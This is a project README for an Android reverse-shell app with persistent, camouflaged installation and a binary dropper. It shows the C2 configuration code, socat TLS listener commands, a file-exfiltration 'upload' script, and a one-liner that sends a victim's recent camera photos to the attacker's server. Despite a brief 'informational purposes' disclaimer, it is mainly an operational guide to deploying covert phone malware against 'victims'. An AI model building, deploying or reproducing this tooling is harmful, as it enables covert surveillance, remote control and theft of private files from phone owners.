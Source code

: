 # revshellSdk28
This is my Android Reverse Shell with dropping capabilities.

The idea was to create a Termux-like environment with a main APK with core functionality, capable of dropping additional executables and scripts.

This app was made for fun and informational purposes only. I strongly discourage any illegal use of the app! Please be responsible.

## Features
- **Secure TLS shell**
- **Persistent** over time and reboots
- **Hidden** and camouflaged with Google apps
- **Drops additional statically linked executable and scripts** based on CPU architecture
- Minimal code with no additional dependencies

Executable and scripts integrated by default:
- `socat` (aarch64 and x86/x64)
- `curl` (aarch64 and x86/x64)
- custom script for file exfiltration over HTTPS (`uplaod`, a file receiver is included in this project; see "httpServerFileReceiver" folder)
- custom script to get device public IP (`ipinfo`)
- custom script to override `whoami` and set a custom "victim id" (`whoami`)

## Performances

The Reverse Shell was tested on Android 8, 11, 12 and 13.

A long time test was successfully performed on a real Android 12 device: the shell has been active for 4 consecutive months without any kind of restart or interruption by the user. During this period, several system reboots and network disconnections were performed to verify the persistence of the app.

## Screenshots
This is the Reverse Shell in action. On the right side you can see the device app drawer: can you guess where is the malicious app? From a visual perspective the reverse shell is perfectly camouflaged with other Google Apps.

![screenshot1](screenshot1.png)

Unfortunately, to guarantee persistence, the app must show a persistent notification (as sneaky as possible):

![screenshot2](screenshot2.png)

On notification/app opening the user will be redirected to a Google support page:

![screenshot3](screenshot3.png)

## Technical details

### execve

This app is able to execute ELF files using `execve` function. The usage of this function is forbidden on Android Q or higher (API level *>28*).

For more details: https://android-review.googlesource.com/c/platform/system/sepolicy/+/804149

So, in order to compile this app, a target API level between 26 and 28 must be set. This, of course, resulted in a number of limitations so that certain features could not be included or used within the app.

### Statically linked binaries

On the target device there is no possibility to include any sort of dependency for the executable files or compile them from source so the malicious app drops **statically linked binaries** included in the APK at compile time.

To add more binaries you must:
- encode the binary to Base64
- put the encoded file in `./revshellSdk28/app/src/main/res/raw` folder
- modify `./revshellSdk28/app/src/main/java/org/android/settings/Dropper.kt`

  example:
  ```
              val payloads = arrayOf(
                arrayOf("aarch64", "socat" , readRawTextResource(context, R.raw.socat_aarch64)),
                arrayOf("aarch64", "curl"  , readRawTextResource(context, R.raw.curl_aarch64)) ,
                arrayOf("x86_64" , "socat" , readRawTextResource(context, R.raw.socat_x86_64)) ,
                arrayOf("x86_64" , "curl"  , readRawTextResource(context, R.raw.curl_x86_64))  ,
                arrayOf("any"    , "whoami", readRawTextResource(context, R.raw.whoami))       ,
                arrayOf("any"    , "ipinfo", readRawTextResource(context, R.raw.ipinfo))       ,
                arrayOf("any"    , "upload", readRawTextResource(context, R.raw.upload))
            )
  ```
  including (in order) the following parameters:
    - a specific architecture (aquired on the target machine using `uname -m`) or "any"
    - filename that will be written on device storage
    - name of the Resource File in the Android Project

Binaries included by default are not compiled by me! You can find these on various Github repos. Following, some examples:
- https://github.com/polaco1782/linux-static-binaries
- https://github.com/ryanwoodsmall/static-binaries
- https://github.com/mosajjal/binary-tools
- https://github.com/andrew-d/static-binaries

### Command and Control settings
In order to set your C2 server you must modify `./revshellSdk28/app/src/main/java/org/android/settings/MainMaliciousCode.kt`.

You can use an IP or an hostname. Example:
```
    object C2 {
        //const val IP    = "myc2.server.it"
        const val IP    = "123.123.123.123"
        const val RPORT = 443
        const val RETRY = 5
    }
```
Of course you must use a **public address**, set **port forwarding** and firewall rules on your router. Additionally, you can use DNS, Ngrok and other services for reachability and to route your traffic but **how to set this configurations or use those services is out of the scope of this documentation!**

### How to start a session
1. Generate a certificate for the TLS connection on your C2 server:
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -out bind.crt
cat bind.key bind.crt > bind.pem
```
2. Create a listener with your favourite tool. Example:
```
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork STDOUT
```
Note: this app is not designed to work in a multi-client environment. The easiest thing you can do to use it with multiple devices is to use a different IP port for each infected machine and change the content of `./revshellSdk28/app/src/main/res/raw/whoami` to set a recognizable name for the victim system.

### Notes on the `upload` script
This script permits file exfiltration over HTTPS. 

To perform this task the file is first Urlencoded then uploaded using `curl` with `--insecure` and `--dns-servers` flags.

If the request return `200 OK` the file is already on the server so it's not uploaded again.

The file is located in `./revshellSdk28/app/src/main/res/raw/upload` and **you must modify it to set your C2 server!**

Example on how to upload a file:
```
upload file.bin
```

Example on how to upload most recent photos from the Camera folder:
```
cd ./DCIM/Opencamera && find $(pwd) -type f -mtime -30 -exec upload {} \;
```

Note: *a simple Python HTTP file receiver is included in this project. See "httpServerFileReceiver" folder. Put your certificate in "https" subfolder. Received files are located in "files" subfolder. Edit "server.py" as you wish.*


### Notes on DNS configuration
In the app environment there is no DNS configuration so in order to perform a connection with certain executables you must use an IP or set the DNS Server manually.

For example to use Curl you must use the `--dns-servers` flag.

Example: `curl --dns-servers 8.8.8.8,8.8.4.4 https://google.com`

### Usefull variables
In order to easily navigate on the infected system you can use the following Environment Variables:
- `HOME` set to `/storage/self/primary`
- `DEN` set to `/data/data/org.android.settings`
- `BINS` set to `/data/data/org.android.settings/.files/usr/bin`
- `PATH` set to `${'$'}BINS:${'$'}DEN:${'$'}PATH`

# TODO
Seems like the app notification permission is not enabled by default (you must enable it manually in the system settings) on some devices running Android 13.

This problem is under investigation.
